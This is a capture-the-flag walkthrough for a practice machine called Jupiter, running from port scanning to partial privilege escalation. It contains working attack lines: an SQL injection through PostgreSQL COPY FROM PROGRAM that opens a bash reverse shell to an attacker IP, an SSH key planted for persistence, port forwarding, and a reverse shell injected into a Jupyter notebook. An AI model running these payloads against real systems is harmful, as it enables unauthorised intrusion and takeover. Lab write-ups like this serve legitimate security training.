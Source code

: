 ```yaml
---
title: "From SQLi to Root"
date: 2023-10-15
---
```



# Enumeration 
IP: 
```shell
10.10.11.233
```
Ports:
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found Grafana Dashboard - `Grafana v9.5.2 (cfcea75916)`

## Reverse Shell

```shell
nc -lvnp 6969
```

### SQL Exploit 
``"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"'"``

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


``ls -ls /tmp/bash``

``./bash -p``

## Copy ssh keys to victim machine
Generate new keys https://linuxhandbook.com/add-ssh-public-key-to-server/

On the Offensive machine - 
```shell
 ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

```shell
python3 -m http.server
```

On the Victim's machine 
```shell
curl -O http://10.10.16.5:8000/id_rsa.pub

#then 

mv id_rsa.pub authorized_keys
```

On the Attackers machine 
```shell
ssh -i id_rsa juno@10.10.11.216
```

Success found user.txt!!!!

---
# Root Flag
Running `cat shadow-simulation.sh`
```bash
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

# **Pivoting : Juno → jovian**

In user shell I type ``netstat -nptl`` command to list all active port running internally in that Machine.

```shell
ssh -i id_rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216
```
This command will forward that port(8888) in my machine. And I can easily access that. :)

navigating to `localhost:8888` with my browser I found a Jupyter labs notebook


TIp `cat *| grep "token"`

After logging in with the token I was able to edit the python notebook and add a reverse shell.
```python
import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"')
```
Success

## Privilege escalation Jovian -> root
```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
Find all config.json files
```shell
find / -name config.json 2>/dev/null
```

Found `/usr/local/share/sattrack/config.json`
